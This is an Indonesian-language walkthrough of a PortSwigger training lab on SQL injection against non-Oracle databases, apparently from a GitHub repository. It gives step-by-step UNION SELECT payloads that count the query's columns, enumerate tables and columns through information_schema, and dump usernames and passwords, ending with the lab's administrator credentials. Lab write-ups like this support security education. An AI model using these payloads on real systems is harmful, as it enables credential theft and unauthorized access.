# 1. SQL injection attack, listing the database contents on non-Oracle databases

# 2. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

# 3. Penyelesaian

a. Tentukan jumlah kolom yang dikembalikan oleh query dan kolom mana yang berisi data teks.
Verifikasikan bahwa query mengembalikan dua kolom, yang keduanya berisi teks, dengan menggunakan payload ```'+UNION+SELECT+'abc','def'--``` pada parameter kategori

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e816a9ea-aee3-4c43-b7cb-a4156643864f" />

b. Gunakan payload ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--``` untuk mengambil daftar tabel dalam database
  
  kemudian Cari nama tabel yang berisi user credetial

  <img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/0ef0d73b-7f32-4dcc-8b38-b0c776e022c1" />

c. Gunakan payload ```'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--``` (ganti nama tabel) untuk mengambil detail kolom dalam tabel. kemudian cari tabel user sama password

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/9168df0d-db04-4d07-8043-136dc62eea20" />

d. kemudian Gunakan payload ```'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--``` (ganti nama tabel dan kolom) untuk mengambil username dan password semua user. dan cari user dan password sebagai administrator dan kemudian gunakan untuk login

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/cfbec648-e0d0-431a-89da-f1544164237f" />

e.administrator
neqh3599fyurfozyd75n

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/07fae73e-67f9-43b0-9b95-4361f81ffe83" />
